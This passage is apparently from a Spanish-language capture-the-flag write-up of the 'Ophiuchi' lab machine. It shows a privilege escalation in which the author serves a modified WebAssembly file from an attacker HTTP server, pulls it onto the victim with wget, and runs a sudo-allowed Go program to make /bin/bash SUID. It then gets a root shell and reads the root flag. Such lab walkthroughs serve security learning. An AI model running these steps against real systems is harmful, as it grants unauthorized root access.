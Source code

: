 Una vez modificada debemos volver a generar un archivo `main.wasm`, el cual lo haremos con `wat2wasm` y lo subimos a la maquina victima compartiendonos un servicio con `python`no sin antes borrar el `main.wasm` de antes.

```bash
❯ /opt/wabt/build/wat2wasm main.wat > main.wasm
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
admin@ophiuchi:/tmp$ rm main.wasm 
admin@ophiuchi:/tmp$ wget http://10.10.16.4/main.wasm
--2023-03-25 01:34:51--  http://10.10.16.4/main.wasm
Connecting to 10.10.16.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 112 [application/wasm]
Saving to: ‘main.wasm’

main.wasm             100%[=========================>]     112  --.-KB/s    in 0s

2023-03-25 01:34:52 (23.2 MB/s) - ‘main.wasm’ saved [112/112]

admin@ophiuchi:/tmp$ ls
deploy.sh
hsperfdata_tomcat
main.wasm
```

Teniendo los archivos volvemos a ejecutar el `index.go` con el privilegio asignado y

```bash
admin@ophiuchi:/tmp$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
admin@ophiuchi:/tmp$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
```
Nos lo ejecuta correctamente, entonces nos ejecuto el `deploy.sh` veamos si es cierto:

```bash
admin@ophiuchi:/tmp$ ls -ls /bin/bash
1156 -rwsr-xr-x 1 root root 1183448 Feb 25  2020 /bin/bash
```

y poom! ahora la bash es `suid` solo debemos ejecutar ahora el comando `bash -p` y visualizar la segunda flag `root.txt` y habriamos comprometido completamente el sistema :).

```bash
admin@ophiuchi:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt 
0a7279e90650d908863ec8e8155efb52
bash-5.0#
```
